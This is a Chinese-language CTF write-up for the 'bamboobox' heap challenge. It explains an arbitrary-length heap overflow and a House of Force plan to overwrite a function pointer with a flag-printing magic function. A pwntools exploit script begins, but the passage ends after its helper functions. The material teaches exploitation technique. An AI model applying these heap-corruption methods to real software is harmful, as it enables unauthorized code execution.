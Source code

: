 该程序大概就是对于盒子里的物品进行添加和删除

1. 展示盒子里的内容，依次盒子里每一个物品的名字。
2. 向盒子里添加物品，根据用户输入的大小来为每一个物品申请对应的内存，作为其存储名字的空间。但是需要注意的是，这里读取名字使用的是 `read` 函数，读取长度的参数是用户输入的 v2，而 read 的第三个参数是无符号整数，如果我们输入负数，就可以读取任意长度。但是我们需要确保该数值满足`REQUEST_OUT_OF_RANGE` 的约束，所以这里存在**任意长度堆溢出**的漏洞。但即使这样，第一次的时候也比较难以利用，因为初始时候堆的 top chunk 的大小一般是不会很大的。
3. 修改物品的名字，根据给定的索引，以及大小，向指定索引的物品中读取指定长度名字。这里长度由用户来读入，也存在**任意长度堆溢出**的漏洞。
4. 删除物品，将对应物品的名字的大小置为0，并将对应的 content 置为 NULL。

此外，由于该程序主要是一个演示程序，所以程序中有一个 magic 函数，可以直接读取 flag。

### 利用

由于程序中有个 magic 函数，所以我们的核心目的是覆盖某个指针为 magic 函数的指针。这里，程序在开始的时候申请了一块内存来存储两个函数指针，hello_message用于程序开始时使用，goodbye_message 用于在程序结束时使用，所以我们可以利用覆盖 goodbye_message 来控制程序执行流。具体思路如下

1. 添加物品，利用堆溢出漏洞覆盖 top chunk 的大小为 -1，即 64 位最大值。
2. 利用 house of force 技巧，分配 chunk 至堆的基地址。
3. 覆盖 goodbye_message 为magic 函数地址来控制程序执行流

**这里需要注意的是，在触发top chunk 转移到指定位置时，所使用的大小应该合适，以便于设置新的 top chunk 大小，从而可以绕过下一次分配top chunk 的检测。**

exp 如下

```shell
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./bamboobox')
context.log_level = 'debug'


def additem(length, name):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)


def modify(idx, length, name):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)


def remove(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


def show():
    r.recvuntil(":")
    r.sendline("1")


magic = 0x400d49
```